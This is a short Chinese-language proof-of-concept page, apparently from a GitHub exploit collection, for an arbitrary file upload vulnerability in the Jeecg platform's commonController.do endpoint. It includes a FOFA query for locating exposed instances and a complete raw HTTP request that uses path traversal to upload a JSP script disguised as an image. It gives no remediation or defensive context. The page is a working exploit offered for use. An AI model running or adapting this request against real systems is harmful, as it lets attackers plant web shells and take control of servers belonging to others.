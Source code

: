 ## Jeecg任意文件上传漏洞

Jeecg  快速开发平台，可以应用在任何J2EE项目的开发中，尤其适合企业信息管理系统（MIS）、内部办公系统（OA）、企业资源计划系统（ERP）、客户关系管理系统（CRM）等，其半智能手工Merge的开发方式，可以显著提高开发效率70%以上，极大降低开发成本。其commonController.do接口存在任意文件上传漏洞，可悲攻击者上传恶意脚本，导致服务器被控。

## fofa
```
app="JEECG"
```

## poc
```
POST /api/../commonController.do?parserXml HTTP/1.1
Host: x.x.x.x
Accept-Encoding: gzip, deflate
Content-Length: 463
User-Agent: Mozilla/2.0 (compatible; MSIE 3.01; Windows 95
Content-Type: multipart/form-data; boundary=----WebKitFormBoundarygcflwtei
Connection: close

------WebKitFormBoundarygcflwtei
Content-Disposition: form-data; "name="name"

zW9YCa.png
------WebKitFormBoundarygcflwtei
ontent-Disposition: form-data; name="documentTitle"

blank
------WebKitFormBoundarygcflwtei
Content-Disposition: form-data; name="file"; filename="zW9YCa.jsp"
Content-Type: image/png

<% out.println("HelloWorld");new java.io.File(application.getRealPath(request.getServletPath())).delete();%>
------WebKitFormBoundarygcflwtei--
```
![a10d70f9a0848a20dd6ebc0f5f6990de](https://github.com/wy876/POC/assets/139549762/2478f8a3-cabf-46a8-abed-721fd81d9d81)

![4d05607351d88cb56932ae7a9c7bf399](https://github.com/wy876/POC/assets/139549762/de06459c-ad80-4711-8242-eaab2c6b2881)
